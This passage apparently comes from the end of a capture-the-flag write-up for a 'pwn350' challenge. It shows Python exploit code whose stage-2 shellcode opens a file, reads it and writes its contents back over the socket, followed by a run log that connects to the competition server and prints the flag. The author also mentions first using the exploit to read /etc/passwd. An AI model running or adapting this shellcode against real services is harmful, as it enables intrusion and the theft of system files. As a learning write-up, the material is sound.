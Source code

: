 ```python
    stage2 += asm("mov rax, 0x2")
    stage2 += asm("mov rdi, 0x00601090")
    stage2 += asm("mov rsi, 0x0")
    stage2 += asm("syscall")
    stage2 += asm("mov r15, rax")

    # read flag from fd
    stage2 += asm("mov rax, 0x0")
    stage2 += asm("mov rdi, r15")
    stage2 += asm("mov rsi, 0x00601200")
    stage2 += asm("mov rdx, 0x1000")
    stage2 += asm("syscall")
    
    # write flag to sockfd
    stage2 += asm("mov rax, 0x1")
    stage2 += asm("mov rdi, 0x6")
    stage2 += asm("mov rsi, 0x00601200")
    stage2 += asm("mov rdx, 0x1000")
    stage2 += asm("syscall")

    r.send(stage2)

    print "hit enter to send flag location"
    raw_input()
    r.send("/home/ctf/flag\x00")

    print r.recv()

else:
    print "can't exploit this one."
```

If you're wondering how I knew where the flag was, I initially didn't. I assumed it was in the same directory as the running binary but it wasn't. I initially used the exploit to leak the contents of /etc/passwd which revealed a home directory /home/ctf. Pwn100 had the same setup with the flag in /home/ctf/flag, so it made sense to try it. 

I had to try the exploit several times since the received executable wasn't always exploitable. It worked best when the bytes read was greater than the buffer size by over 100 bytes. When it finally worked:

```
saving binary as "mybin"
[+] Opening connection to 52.20.10.244 on port 8888: Done
[+] Recieving all data: Done (8.75KB)
[*] Closed connection to 52.20.10.244 port 8888
[*] '/root/Desktop/pwn350/mybin'
    Arch:          amd64-64-little
    RELRO:         Partial RELRO
    Stack Canary:  No canary found
    NX:            NX enabled
    PIE:           No PIE
port: 18716
toread: 369
bufsiz: 200
exploitable!
[+] Opening connection to 52.20.10.244 on port 18716: Done
sending stage 1
hit enter to send stage 2

hit enter to send flag location

flag{c4nt_w4it_f0r_cgc_7h15_y34r}
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00...
```